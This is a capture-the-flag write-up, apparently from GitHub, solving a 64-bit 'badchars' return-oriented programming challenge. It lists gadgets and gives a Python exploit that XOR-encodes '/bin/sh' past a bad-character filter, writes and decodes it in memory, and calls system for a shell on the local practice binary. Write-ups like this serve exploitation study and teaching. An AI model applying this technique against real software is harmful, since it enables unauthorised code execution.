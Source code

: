 # badchars - 64 bit

we are progressing in the series and the challanges are becoming more interesting.  
     
this time we have to deal with badchars.
    
badchars are characters that will not appear in memory the way we expect them to     
and therefore will cause unexpected behaviour.    
     
for example: a null byte is the most common bad char as it will usually(not in this challange though) terminate strings. 
    
we are granted with a list of bad chars when we execute the binary. 
    
![begin](https://user-images.githubusercontent.com/60041914/78296351-3a98d600-7536-11ea-99f1-b680518e923f.png)
   
when checking out the gadgets we should look for ways to bypass this constraint.    
it's time to get creative.     
looking around I find these gadgets useful:  
```nasm
0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
0x0000000000400b40 : pop r14 ; pop r15 ; ret
0x0000000000400b39 : pop rdi ; ret
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
```
   
you might understand what I'm getting at just by looking at them.    
my plan is to place a string in memory("/bin/sh")    
whose bad chars are xored with a key and then xor these same chars again.    

plan in detail:    
1.xor the bad chars in our string with a key   
2.use "pop r12 ; pop r13 ; ret" to set r12 to the string, r13 the desired address        
3.use "mov qword ptr [r13], r12 ; ret" to write the string to memory
for each xored char:
     4.use "pop r14 ; pop r15 ; ret" to set r14 to the key,r15 to the address of the char
     5.use "xor byte ptr [r15], r14b ; ret" to xor them     
6.use "pop rdi ; ret" to point rdi to our decrypted string in memory    
7.call system   
8.profit????   
    
the rop chain looks like this:   
```python
bad_chars=['b', 'i', 'c', '/' ,' ','f','n','s']

CALL_SYSTEM=0x004006f0
STR_ADDR=0x00601100
SET_RDI=0x00400b39
SET_XOR_REGS = 0x00400b40
XOR_BYTES=0x00400b30
SET_REGS=0x00400b3b
WRITE_MEM=0x00400b34

xor_key=0x12

def write_str(s,addr,exp):
    #write 8 byte string with bad chars
    exp+=p64(SET_REGS)
    s=list(s)
    xored_s=[chr(ord(ch)^xor_key) if ch in bad_chars else ch for ch in s]
    exp+="".join(xored_s)
    exp+=p64(addr)
    exp+=p64(WRITE_MEM)
    for ch in s:
        if ch in bad_chars:
            exp+=p64(SET_XOR_REGS)
            exp+=chr(xor_key)+"\x00"*7
            exp+=p64(addr)
            exp+=p64(XOR_BYTES)
        addr+=1

    return exp

r=process("./badchars")
exploit=b'A'*40
exploit=write_str("/bin/sh\x00",STR_ADDR,exploit)
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR)
exploit+=p64(CALL_SYSTEM)
```
    
it works!     
![sof](https://user-images.githubusercontent.com/60041914/78296354-3bca0300-7536-11ea-987b-6d79073ae313.png)
